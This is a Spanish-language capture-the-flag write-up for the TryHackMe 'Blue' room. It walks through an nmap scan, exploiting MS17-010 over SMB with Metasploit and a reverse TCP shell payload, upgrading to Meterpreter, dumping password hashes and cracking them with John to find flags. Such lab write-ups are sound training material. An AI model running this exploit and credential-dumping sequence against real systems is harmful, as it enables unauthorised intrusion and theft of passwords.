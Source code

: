 # THM - Blue
[TryHackMe-Blue](https://tryhackme.com/room/blue)

Para comenzar el análisis se realiza un **nmap** a la ip de la máquina.

![Nmap1](/img/blue1.png)

![Nmap2](/img/blue3.png)

Gracias a este escaneo, podemos ver que hay un total de 3 puertos abiertos con un número menor que el 1000.

*Try Hack Me*  
![THM1](/img/blue2.png)

Se busca una vulnerabilidad concreta para el servicio que se encuentra en el puerto 445. 

![Nmap3](/img/blue4.png)

*Try Hack Me*  
![THM2](/img/blue5.png)

A continuación hay que encontrar algún *exploit* para la vulnerabilidad encontrada. Para ello se va a utilizar **Metasploit**, el cual se ejecuta escribiendo *msfconsole* en la línea de comandos.
```
search ms-17-010
```

![search](/img/blue6.png)

*Try Hack Me*  
![THM3](/img/blue7.png)

Elegir el exploit y ver sus opciones:
```
use 0
show options
set rhosts (ip THM)
set lhost (ip vpn)
set payload windows/x64/shell/reverse_tcp
run
```

![options](/img/blue9.png)

*Try Hack Me*  
![THM4](/img/blue8.png)

Una vez se haya ejecutado el exploit aparecerá la línea de comandos de la máquina vulnerable.

![shell](/img/blue10.png)

Pulsar *Ctrl + Z*.

![session](/img/blue15.png)

De esta forma conocemos la sesión en la que se encuentra la shell, lo cual será necesario más adelante.

A continuación se va a buscar un *exploit* de *shell_to_meterpreter* en Metasploit.

![search2](/img/blue11.png)

*Try Hack Me*  
![THM5](/img/blue12.png)

Una vez seleccionado el *exploit* se muestran las opciones:

![options2](/img/blue13.png)

*Try Hack Me*  
![THM6](/img/blue14.png)

```
set lhost (ip vpn)
set session (nº sesión encontrada)
run
```

Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos.

![shell](/img/blue16.png)

Seleccionar la sesión en la que se encuentra el *Meterpreter*.

![shell2](/img/blue17.png)

Puede verse el usuario con el que se ha accedido y el registro de procesos.

![shell3](/img/blue18.png)

![meterpreter](/img/blue19.png)

Desde la consola *meterpreter* ejecutar el comando *hashdump*.

![meterpreter2](/img/blue20.png)

*Try Hack Me*  
![THM7](/img/blue21.png)

Una vez obtenido el hash de la contraseña, se debe copiar en un txt y descifrar la contraseña verdadera con la herramienta *John* de la siguiente manera:

![contraseña](/img/blue22.png)

*Try Hack Me*  
![THM8](/img/blue23.png)

A continuación hay que navegar entre las carpetas para encontrar las flags:
+ Flag1:

![flag1](/img/blue24.png)

*Try Hack Me*  
![THM9](/img/blue25.png)

+ Flag 2:

![flag2](/img/blue26.png)

![flag2](/img/blue27.png)

*Try Hack Me*  
![THM10](/img/blue28.png)

+ Flag 3:

![flag3](/img/blue29.png)

*Try Hack Me*  
![THM11](/img/blue30.png)